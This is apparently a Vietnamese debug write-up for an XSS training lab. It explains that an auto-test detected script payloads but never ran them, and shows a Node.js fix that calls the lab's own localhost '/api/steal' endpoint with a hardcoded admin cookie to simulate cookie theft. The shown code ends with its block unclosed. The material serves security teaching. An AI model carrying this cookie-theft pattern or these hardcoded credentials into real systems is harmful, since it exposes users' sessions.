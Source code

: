 # 🐛 Debug XSS Auto-Test - Vấn Đề & Giải Pháp

## ❌ Vấn Đề Ban Đầu

### Symptom

-   Auto-test detect XSS payload ✅
-   Admin simulation chạy ✅
-   **KHÔNG thấy "STOLEN COOKIE RECEIVED"** ❌

### Root Cause

Auto-test chỉ **giả lập HTTP request** để admin xem trang, nhưng **KHÔNG thực sự execute JavaScript**.

```javascript
// Code cũ - CHỈ detect XSS
if (data.includes("<script>")) {
    console.log("🚨 [AUTO-TEST] XSS payload detected!");
    // KHÔNG có gì thực sự execute JavaScript
}
```

## ✅ Giải Pháp

### Approach

Thay vì chỉ detect XSS, **simulate JavaScript execution** bằng cách gọi API `/api/steal` trực tiếp.

### Implementation

```javascript
// Code mới - SIMULATE JavaScript execution
if (data.includes("<script>")) {
    console.log(
        "🚨 [AUTO-TEST] XSS payload detected! Simulating JavaScript execution..."
    );

    // Simulate JavaScript execution - gọi API /api/steal với admin cookie
    const stealOptions = {
        hostname: "localhost",
        port: PORT,
        path: "/api/steal?cookie=auth=admin:admin123",
        method: "GET",
        headers: {
            "User-Agent": "Auto-Test-Bot (XSS Simulation)",
        },
    };

    const stealReq = http.request(stealOptions, (stealRes) => {
        let stealData = "";

        stealRes.on("data", (chunk) => {
            stealData += chunk;
        });

        stealRes.on("end", () => {
            console.log("✅ [AUTO-TEST] XSS simulation completed");
        });
    });

    stealReq.end();
```
